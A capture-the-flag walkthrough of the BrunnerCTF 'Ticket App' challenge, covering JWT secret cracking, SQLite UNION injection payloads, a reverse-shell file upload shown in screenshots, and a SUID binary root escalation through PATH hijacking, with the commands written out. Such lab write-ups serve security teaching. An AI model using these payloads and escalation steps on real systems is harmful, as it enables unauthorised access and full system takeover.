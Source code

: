 # Ticket-APP-Boot2Root-Walkthrough-BrunnerCTF-

In this writeup, we’ll go through solving the **Ticket App** Boot2Root challenge from **BrunnerCTF**.  
The target is a web application, and we’ll exploit it step-by-step to gain user and root access.
![Image](images/Pasted%20image%2020250825085948.png)

## Enumeration
After accessing the website, I noticed two options: **Register** and **Login**.  
I created a new account and logged in successfully.
![Image](images/Pasted%20image%2020250825090317.png)


![Image](images/Pasted%20image%2020250825090343.png)

Once logged in, the dashboard displayed field Admin: False **(This strongly hinted at the use of a JWT (JSON Web Token) for authentication.)**

![Image](images/Pasted%20image%2020250825090404.png)

## Exploiting JWT Authentication
I took the token copy and go to [token.dev](https://token.dev/)
![Image](images/Pasted%20image%2020250825090442.png)

The token was **HS256-signed**. If the signing secret can be guessed or cracked, we can forge our own token.
![Image](images/Pasted%20image%2020250825090505.png)


I found that If I knew the secret I cand edit this token and make the admin true
I crafted this python script to brute force the secret. After a successful crack, It will modify admin from false to true
![Image](images/Pasted%20image%2020250825090849.png)

this file is also in the repo called jwt.py
after running the script I get a new token of admin priv.
![Image](images/Pasted%20image%2020250825090948.png)


After replacing my old token, the application recognized me as **Admin**. A new input field appeared on the interface.

![Image](images/Pasted%20image%2020250825091026.png)

## SQL Injection

I tried to search through this input

![Image](images/Pasted%20image%2020250825091059.png)
The new input box allowed queries, so I tested it with a single quote (`'`) → classic SQL injection behavior appeared.
![Image](images/Pasted%20image%2020250825091136.png)
![Image](images/Pasted%20image%2020250825092238.png)
Next, I fingerprinted the backend database:
- MySQL payload → failed
    
- SQL Server payload → failed
    
- SQLite payload → succeeded ✅

MySQL:

![Image](images/Pasted%20image%2020250825093046.png)
SQL Server:

![Image](images/Pasted%20image%2020250825093124.png)
SQLite:

![Image](images/Pasted%20image%2020250825093143.png)

## Database Enumeration
I tried this payload to get all tables name and I found a table called settings which is tempting

```sql
UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table'--
```

![Image](images/Pasted%20image%2020250825093220.png)
so I decided to get all table columns I found a column called key
![Image](images/Pasted%20image%2020250825093331.png)

```sql
' UNION SELECT 1, name, 3, 4 FROM pragma_table_info('settings')--
```

So I decided to select data in this table 
![Image](images/Pasted%20image%2020250825093412.png)

```sql
' UNION SELECT 1, key, value, 4 FROM settings--
```
and I found a API key 
![Image](images/Pasted%20image%2020250825093549.png)
I decided to open robots .txt to see if there is any directories we can use it and luckily I found /api/docs so I go to this directory

![Image](images/Pasted%20image%2020250825091619.png)
We found it is swagger API Documentation which is very useful to us there is a PUT API endpoint
![Image](images/Pasted%20image%2020250825091657.png)
First I authorize using my Token
![Image](images/Pasted%20image%2020250825091742.png)

![Image](images/Pasted%20image%2020250825093638.png)
in /api/module we see that we can upload file and the uploaded file will run in python so I decided to upload a python reverse shell 
![Image](images/Pasted%20image%2020250825093656.png)
First I open a listener
![Image](images/Pasted%20image%2020250825093749.png)
then a tunnel to make the listener public
![Image](images/Pasted%20image%2020250825093834.png)
I uploaded the reverse shell
![Image](images/Pasted%20image%2020250825094041.png)
after uploading it it doesn't run through swagger so I decided to use curl
![Image](images/Pasted%20image%2020250825094215.png)
I used curl to make some changes in request
## Initial Foothold (RCE)
![Image](images/Pasted%20image%2020250825094427.png)
and boom we have a shell

![Image](images/Pasted%20image%2020250825094442.png)
![Image](images/Pasted%20image%2020250825094523.png)
# Privilege Escalation
## Enumeration
I search for the SUID Binaries and I found a custom binary called syslog-manager
which I will use it to make privesc
![Image](images/Pasted%20image%2020250825094604.png)
FIrst I used -h to know the usage of this binary

![Image](images/Pasted%20image%2020250825094624.png)
I run strings to know all strings in the binary
```bash
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/$ strings /usr/bin/syslog-manager            
/lib64/ld-linux-x86-64.so.2
snprintf
__isoc23_strtoull
perror
free
fread
stat
setuid
fopen
system
localtime_r
strlen
strstr
stdout
getline
strftime
__libc_start_main
stderr
fprintf
__cxa_finalize
ftell
fclose
fwrite
strcmp
fseek
libc.so.6
GLIBC_2.33
GLIBC_2.38
GLIBC_2.34
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Usage:
  %s read   [max_bytes]
  %s tail   [lines]
  %s append <text>
  %s search <needle>
  %s clean
  %s stats
/var/log/syslog.log
open
fseek
ftell
cleaner %s 2>/dev/null
Command too long
Error: cleaning failed
stat
%Y-%m-%d %H:%M:%S %z
path : %s
size : %lld bytes
lines: %zu
mtime: %s
path : %s
size : %lld bytes
lines: %zu
mtime: %ld
read
tail
append
search
clean
stats
```
From strings we see
`cleaner %s 2>/dev/null`
this means that it runs a file called cleaner when we add the option `clean`

```bash
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ /usr/bin/syslog-manager clean              
Error: cleaning failed
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ cleaner
bash: cleaner: command not found
```

---
## Exploit
as we don't found the cleaner file so I decided to make this file 
and make it executable but before that I need to edit the Path of executable in our machine
so I run this command 
`ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ export PATH=/tmp:$PATH`
this command add the /tmp to the PATH
so I can run any thing inside it without provide it's directory 
then I make a clear file called cleaner to test if the clean option will be run or not
and change it's permission to 777 and the `/usr/bin/syslog-manager clean` doesn't print to us
`Error: cleaning failed`
so I add the bash header to the fil and make it run bash env
after this I was root
```bash
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ export PATH=/tmp:$PATH
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ echo '' > cleaner 
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ chmod 777 ./cleaner
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ /usr/bin/syslog-manager clean              
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ echo '#!/bin/bash' > cleaner                 
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ echo '/bin/bash -p' >> cleaner
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ /usr/bin/syslog-manager clean                 
id
uid=0(root) gid=1000(ctfplayer) groups=1000(ctfplayer)          
```   

---
# Conclusion

This Boot2Root challenge followed a classic **Web → RCE → PrivEsc** flow:

1. Weak **JWT secret** allowed token forgery and privilege escalation to Admin.
    
2. SQL Injection exposed **API keys**.
    
3. Swagger API enabled **Python RCE** through file upload.
    
4. A custom **SUID binary** (`syslog-manager`) with unsafe `system()` call led to **root privilege escalation** via PATH hijacking.
    

🎯 **Flags captured, root access achieved.**
